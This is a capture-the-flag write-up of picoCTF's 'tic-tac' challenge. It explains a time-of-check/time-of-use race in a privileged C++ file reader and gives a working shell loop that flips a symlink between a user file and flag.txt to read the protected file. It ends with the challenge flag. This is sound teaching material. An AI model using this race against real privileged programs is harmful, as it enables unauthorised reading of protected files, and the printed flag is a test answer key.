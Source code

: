 # tic-tac
> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

> Additional details will be available after launching your challenge instance.

## About the Challenge
We were given access to an SSH server, and there are 3 files in the `/home/ctf-player` directory. The files are `flag.txt` which contains the flag, `src.cpp` the source code of the file, and `txtreader` the compiled src.cpp file. Here is the content of the `src.cpp`

```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
    if (argc != 2) {
        std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
        return 1;
    }                                                                                                                             
    
    std::string filename = argv[1];
    std::ifstream file(filename);
    struct stat statbuf;

    // Check the file's status information.
    if (stat(filename.c_str(), &statbuf) == -1) {
        std::cerr << "Error: Could not retrieve file information" << std::endl;
        return 1;
    }
    
    // Check the file's owner.
    if (statbuf.st_uid != getuid()) {
        std::cerr << "Error: you don't own this file" << std::endl;
        return 1;
    }
    // Read the contents of the file.
    if (file.is_open()) {
        std::string line;
        while (getline(file, line)) {
            std::cout << line << std::endl;
        }
    } else {
        std::cerr << "Error: Could not open file" << std::endl;
        return 1;
        }
    return 0;
}
```

So if we run `./txtreader flag.txt`, the output is `Error: you don't own this file` because to open `flag.txt` file we need to login as `root` first

![preview](images/preview.png)

## How to Solve?
If we check the tag of the chall is `TOCTOU` vulnerability (Time-Of-Check Time-Of-Use). And then im searching about `TOCTOU` vulnerability in C program and then I found this website (You can access the website [here](https://samsclass.info/127/proj/E10.htm))

You run this command to solve the chall and obtain the flag

```shell
echo "PUBLIC INFORMATION" >> public
for i in {1..1000}; do ln -sf flag.txt flip; ln -sf public flip; done
while true; do ln -sf flag.txt flip; ln -sf public flip; done &
for i in {1..30}; do ./txtreader flip; done
```

So, first you need to create a file that can be accessed by yourself called `public`. And then testing the flipping rate. And then flips the link from `public` to `flag.txt` rapidly and runs in the background. And then try to execute the `txtreader` file multiple times to get the flag

![flag](images/flag.png)

```
picoCTF{ToctoU_!s_3a5y_0490d70a}
```